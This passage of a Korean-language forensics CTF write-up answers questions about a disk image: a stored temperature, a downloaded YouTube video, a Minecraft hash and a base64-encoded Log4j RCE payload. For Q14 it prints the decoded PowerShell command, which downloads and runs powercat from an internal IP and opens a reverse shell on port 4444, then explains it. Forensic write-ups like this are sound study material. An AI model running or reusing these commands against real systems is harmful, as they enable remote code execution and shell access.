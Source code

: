 11번 문제는 윈도우에 저장된 2022년 2월 11일, 오후 6시 30분 화씨 온도를 찾는 것이다.<br>
Thumbnails 파일에 다시 가서 확인해보면<br><br>

![20231117_154801](https://github.com/user-attachments/assets/2df94a9c-e054-45f1-9a33-6ce7c4e288d7)<br>
오른쪽 아래에 2022년 2월 11일, 오후 6시 30분이라는 것과 왼쪽 아래에 온도가 **45F**로 표시되어 있음을 확인할 수 있다.<br><br><br><br>



**Q12. Never gonna give... up on this question -> What is the upload date of the second youtube video on the channel from which the user downloaded a youtube video?<br><br>**

12번 문제는 사용자가 유튜브 영상을 다운로드 하였고, 이 영상을 다운 받은 채널의 2번째 영상이 업로드된 날짜를 물어보고 있다.<br><br>

![20231117_155614](https://github.com/user-attachments/assets/a11ba0c9-e9a8-4bc2-a6a0-b5bcab8bce24)<br>
다운로드 파일 경로인 root\home\rafael\Downloads\을 향해보면 Rick Astley - Never Gonna Give you up 음악 파일이 다운로드 되어 있다.<br><br>

Rick Astley의 유튜브 채널에서 다운로드를 하였으니, 두 번째로 업로드 된 영상의 날짜를 확인해보면 된다.<br>
![20231117_155759](https://github.com/user-attachments/assets/069b41ba-882a-4fb7-a273-4096e2afc26d)<br>
**2009년 10월 25일**에 업로드되었다.<br><br><br><br>



**Q13. Buzzy Bees -> What is the SHA-1 hash of Minecraft's "latest" release according to the system?<br><br>**

마인크래프트의 최신 릴리스 SHA-1 해시값을 물어보는 문제이다.<br>
.minecraft 디렉토리로 향하며 versions 폴더에 들어가보면 version_manifest_v2.json이라는 파일을 확인할 수 있다.<br><br>

![20231117_160054](https://github.com/user-attachments/assets/80b79426-8d04-46f1-962d-4acb0e2e2ef9)<br>
해시값은 **3c6e119c0ff307accf31b596f9cd47ffa2ec6305**이다.<br><br><br><br>



**Q14. he RCE is base(64)d on what? -> What were the three flags and their values that were passed to powercat? The answer must be provided in the same format as the entered command. (For example, if the command was "powercat -D Y -l a -n," the answer would be "-D Y -l a -n")<br><br>**

간단히 말하자면 base64로 인코딩 된 powercat의 명령어를 알아내는 문제이다.<br><br>

문제에서 Powercat을 언급했기에, 히스토리로 다시가서 powercat에 대한 로그들을 확인하다가...<br><br>

Log4jRCE.java 파일을 수정하는 모습을 확인할 수 있었고, marshalsec/poc/ 경로로 파일을 복사한 것을 확인할 수 있었다.<br><br>

경로를 따라가 Log4jRCE.java의 내용을 보게 되면<br>
![20231117_160520](https://github.com/user-attachments/assets/23a9b12a-9ae7-4028-9adb-b51b2cdc3f16)<br>
위와 같은 사진을 확인할 수 있었고, 문제에서 base64로 인코딩이 되어있다고 언급했으므로, base64로 디코딩을 다시 해보면,<br><br>

powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.191.253:8000/powercatps1');
powercat -c 192.168.191.253 -p 4444 -e cmd"<br><br>

음.... chatpgt 도와줘!<br>

IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.191.253:8000/powercatps1'):<br>
IEX는 PowerShell에서 명령을 즉시 실행하는 기능(Invoke-Expression)이다.<br>
New-Object System.Net.WebClient는 새로운 웹 클라이언트 객체를 생성하는 명령어다.<br>
DownloadString('http://192.168.191.253:8000/powercatps1')는 지정된 URL로부터 문자열(스크립트)을 다운로드한다.<br>
이 부분 전체는 http://192.168.191.253:8000/powercatps1에서 스크립트를 다운로드하고, 그 스크립트를 즉시 실행하라는 의미이다.<br><br>
